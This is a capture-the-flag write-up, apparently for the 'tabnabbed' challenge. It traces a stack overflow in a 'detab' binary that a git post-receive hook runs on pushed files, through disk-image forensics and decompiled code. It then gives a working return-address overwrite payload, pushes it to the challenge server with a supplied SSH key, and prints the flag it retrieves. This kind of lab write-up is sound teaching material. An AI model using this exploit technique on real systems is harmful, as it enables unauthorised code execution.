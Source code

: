 # identification

For this one, we are also provided with a hostname and a tarball containing a SSH private key and a `qcow2` image. Since the description mentioned developers and git repository, this will probably be helpful to access the repo later on...

```console
$ file developers.key
developers.key: OpenSSH private key
$ qemu-img info githost.qcow2
image: githost.qcow2
file format: qcow2
virtual size: 10 GiB (10737418240 bytes)
disk size: 2.36 GiB
cluster_size: 65536
Format specific information:
    compat: 1.1
    compression type: zlib
    lazy refcounts: false
    refcount bits: 16
    corrupt: false
```

Since we're not provided with the run command, I guessed that this would be a disk forensics start then since we couldn't infer the VM properties.

```console
# modprobe nbd max_part=8
# qemu-nbd --connect=/dev/nbd0 ./githost.qcow2
# fdisk /dev/nbd0 -l
Disk /dev/nbd0: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 62B0CFE7-BB10-47FE-B235-AD95F16E8072

Device      Start      End  Sectors Size Type
/dev/nbd0p1  2048     4095     2048   1M BIOS boot
/dev/nbd0p2  4096 20969471 20965376  10G Linux filesystem
# mount /dev/nbd0p2 /mnt/githost
# cd /mnt/githost
# ls -la
[...]
-rwxr-xr-x  1 root root 17400 Jan 14 15:41 detab
drwxr-xr-x  4 root root  4096 Oct 22 16:00 dev
drwxr-xr-x 90 root root  4096 Jan 14 15:49 etc
-rw-r--r--  1 root root     9 Jan 18 11:44 flag.txt
[...]
```

The `detab` binary and `flag.txt` file look interesting!

# analysis

## filesystem

We know that the flag will be under `/flag.txt` on the remote host. I searched for `detab` references in the files and found a reference in a `git` script. This circles back to the description. So far so good :)

```console
$ find /mnt/githost/ 2> /dev/null| xargs grep detab 2> /dev/null
./home/git/repositories/hashfunctions.git/hooks/post-receive:    with subprocess.Popen(["/detab"], stdin=subprocess.PIPE, stdout=subprocess.PIPE) as proc:
```

## script

Analyzing the script code, we see that upon commit, if the author name is not `Order of 0x20`, `detab` will be called with the new file as input and no other arguments.

## detab

Few functions in here:
- `main()`
- `vaccinate()`
- `print_flag()`

Checking the protections, we have a strong indicator that we will have to exploit an overflow in `vaccinate` to call `print_flag` since there are no stack canaries nor PIE flag for the binary #ctf6thsense ;)

```console
 $ checksec detab
[*] 'detab'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In Binary Ninja after analysis, we have the following HLIL for `vaccinate` and know that the output buffer is at `char output_buf[0x200]  {Frame offset -220}`.

```c
004012a2  int32_t is_new_line = 1
004012a9  int32_t consecutive_tabs = 0
004012bc  int64_t rcx = 0x41
004012c1  size_t i
004012c1  uint64_t* rdi = &i
004012c4  for (; rcx != 0; rcx = rcx - 1)
004012c4      *rdi = 0
004012c4      rdi = rdi + 8
0040140a  int64_t rax_3
0040140a  while (true)
0040140a      char current_char = fgetc(fp: *stdin)
00401418      char output_buf[0x200]
00401418      if (current_char != 0xff && current_char != 0)
004012cc          if (is_new_line == 0)
004012d2              uint64_t saved_i = i
004012dd              i = saved_i + 1
004012e8              *(&output_buf + saved_i) = current_char
004012f4          else
004012f4              if (is_new_line == 1 && current_char == '\t')
00401334                  for (int64_t count_spaces = 0; count_spaces u< spaces_for_tab; count_spaces = count_spaces + 1)
0040130a                      uint64_t saved_i = i
00401315                      i = saved_i + 1
0040131c                      *(&output_buf + saved_i) = ' '
00401336                  consecutive_tabs = consecutive_tabs + 1
0040135b                  if (consecutive_tabs s> 7)
0040135b                      fwrite(buf: "please review your code!\n", size: 1, count: 0x19, fp: *stderr)
00401360                      rax_3 = 0xffffffff
00401365                      break
00401370              if (((is_new_line != 1 || (is_new_line == 1 && current_char != '\t')) && is_new_line == 1) && current_char != '\t')
00401376                  uint64_t saved_i = i
00401381                  i = saved_i + 1
0040138c                  *(&output_buf + saved_i) = current_char
00401393                  is_new_line = 0
0040139a                  consecutive_tabs = 0
004013a1          if (current_char == '\n')
004013a7              is_new_line = 1
004013b5          if (i != 0x200)
004013bb              continue
004013e1          else
004013e1              fwrite(buf: &output_buf, size: 1, count: i, fp: *stdout)
004013f0              fflush(fp: *stdout)
004013f5              i = 0
004013f5              continue
00401446      fwrite(buf: &output_buf, size: 1, count: i, fp: *stdout)
0040144b      rax_3 = 0
0040144b      break
00401451  return rax_3
```

We see that a character is read from `stdin` at `0x0040140a` until there is no more to read. There is also this `output_buffer` which is of `0x200` bytes and as such, there is a safe check at `0x004013b5` to ensure that there is no overwrite of it. Clever!

At `0x004012f4` we see that if a malicious `\t` is encountered, it will be replaced by spaces. The number of spaces is passed as an argument and is coming from the command line. Here, since no options are passed to `detab`, the value is `4` spaces for `1` tab. We also have a limit of `7` `\t` in a row from test at `0x0040135b`. In order to place the spaces, our counter in `output_buffer` is incremented by `1` for each space at `0x00401315`. Wait, say that again!?!

If we have already read `0x1fd` characters when we encounted a `\t`, the counter will be above `0x200` and the test in `004013b5` will fail (since checking for exactly `0x200` cycles :)). We got our overflow!

Not so fast! Looking at the stack layout, you will see that we have other variables that we're going to overwrite by overflowing `output_buffer`:

```c
int64_t count_spaces  {Frame offset -18}
int32_t consecutive_tabs  {Frame offset -10}
int32_t is_new_line  {Frame offset -c}
```

# exploitation

I spend quite some time here trying to get a good value in those variables during the overflow but since we cannot use `\x00` (the function would return), we cannot properly set those integers to the expected values. The issue is that messing with them, we end up in the case where the characters are not written back to `output_buffer` due to the checks at `0x004012cc`, `0x004012f4` and `0x00401370`. After loosing too much time, I went for an unclean option: using multiple new lines to be sure that this variable has a correct value.

```console
$ gdb ./detab
(gdb) b*0x401450
(gdb) r < <(python -c 'print "A"*509+"\n"+"\t"+"ABCDEFGHIJKLMNOPQ\n\n\n\n\n\n"+"AAAAAAAACDEGFHIJKLM"')
(gdb) c
Continuing.
Breakpoint 1, 0x0000401450 in ?? ()
[...]
$rsp   : 0x00007fffffffe318  →  0x4948464745444341 ("ACDEGFHI"?)
[...]
```

Just have to weaponize this with `read_flag()` address to retrieve it on the real target.

```console
$ python -c 'print "A"*509+"\n"+"\t"+"ABCDEFGHIJKLMNOPQ\n\n\n\n\n\n"+"AAAAAAA\xd6\x11\x40\x00"' | ./detab > file.pwn
```

Now that we have the file, let's look at the repository:

```console
$ GIT_SSH_COMMAND='ssh -i ./githost/developers.key -o IdentitiesOnly=yes' git clone ssh://git@tabnabbed.challenges.adversary.zone:23230/hashfunctions.git
[...]
$ ls -l hashfunctions
-rw-r--r--  1 milkmix  staff   382B Jan 26 12:33 h.py
```

Let's add our `file.pwn` and push it to the repository:

```console
$ git add file.pwn
$ git commit -am 'pwned'
$ GIT_SSH_COMMAND='ssh -i ./githost/developers.key -o IdentitiesOnly=yes' git push
[...]
remote: 040 == 32 == 0x20!
[...]
$ GIT_SSH_COMMAND='ssh -i ./githost/developers.key -o IdentitiesOnly=yes' git pull
[...]
 file.pwn | Bin 546 -> 576 bytes
[...]
$ cat file.pwn
[...]
CS{th3_0ne_4nd_0nly_gith00k}
[...]
```

Also enjoyed this one for the steps and scenario!
